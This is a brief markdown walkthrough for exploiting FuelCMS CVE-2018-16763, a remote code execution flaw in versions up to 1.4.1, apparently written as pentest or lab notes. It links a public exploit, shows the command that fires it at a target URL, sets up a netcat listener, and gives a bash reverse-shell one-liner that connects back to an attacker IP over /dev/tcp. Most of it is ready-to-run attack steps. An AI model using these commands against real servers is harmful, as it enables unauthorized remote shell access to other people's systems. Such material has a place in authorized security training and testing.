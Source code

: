 # FuelCMS - CVE-2018-16763

## Requirements

 - FuelCMS version <= 1.4.1

## Exploitation

### Download the exploit 

https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE

![](./imgs/exploit.png)

### Trigering the exploit

```
python exploit.py -u http://TARGET/ 
```
![](./imgs/exploit_trigger.png)

### Setting up a netcat listener

```
nc -lvnp [PORT]
```
![](./imgs/stable_shell.png)

### Get a stabilized shell

```
echo "sh -i >& /dev/tcp/[IP ADRESS]/[PORT] 0>&1" > /tmp/shell.sh; bash /tmp/shell.sh
```
![](./imgs/shell_result.png)

## References
 - https://www.getfuelcms.com/
 - https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE
